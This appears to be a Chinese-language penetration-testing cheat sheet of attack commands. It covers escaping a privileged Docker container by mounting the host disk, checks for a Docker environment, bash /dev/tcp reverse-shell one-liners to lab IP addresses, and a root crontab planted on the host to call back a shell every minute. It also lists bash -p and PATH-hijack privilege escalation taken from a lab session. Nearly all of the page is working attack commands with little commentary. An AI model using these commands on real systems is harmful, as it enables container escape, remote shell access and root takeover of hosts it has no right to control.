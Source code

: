   
特权逃逸（利用条件：管理员启动容器执行docker run —privileged）  

```
mkdir /tmp/forest  # 创建一个文件夹
mount /dev/sda1 /tmp/forest  # 挂载磁盘
ls /tmp/forest  # 查看挂载后的磁盘内容

```

### docker信息收集  

```
ls -alh /.dockerenv # 判断是否为docker环境，存在则是，进行下一条命令，不存在则否
cat /proc/1/cgroup # 通过控制组(cgroup)信息判断容器化环境

```

## 反弹shell绕过  
### 1、bash绕过  

```
bash -c '/bin/bash -i >& /dev/tcp/10.10.10.128/1234 0>&1'  # 利用 -c 来执行命令

```

### 2、写计划任务  
  
也可以用来进行docker逃逸  

```
echo &#34;/bin/bash -i >& bash -i >& /dev/tcp/10.10.10.130/1234 0>&1&#34;>> /tmp/forest/tmp/shell.sh
chmod +x /tmp/forest/tmp/shell.sh
cat /tmp/forest/tmp/shell.sh
# 写入crontab计划任务，表示每隔1分钟以root权限执行一次计划
echo '*/1 * * * * root  bash /tmp/shell.sh' > /tmp/forest/etc/crontab
cat  /tmp/forest/etc/crontab
nc -lvnp 1234

```

## 提权系列命令  
  
bash提权  

```
/usr/bin/bash -p

```

  
软连接+修改环境变量提权  

```
ramses@NullByte:/var/www/backup$ ./procwatch
  PID TTY          TIME CMD
 3407 pts/0    00:00:00 procwatch
 3408 pts/0    00:00:00 sh
 3409 pts/0    00:00:00 ps
ramses@NullByte:/var/www/backup$ ln -s /bin/sh ps
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ./procwatch

```
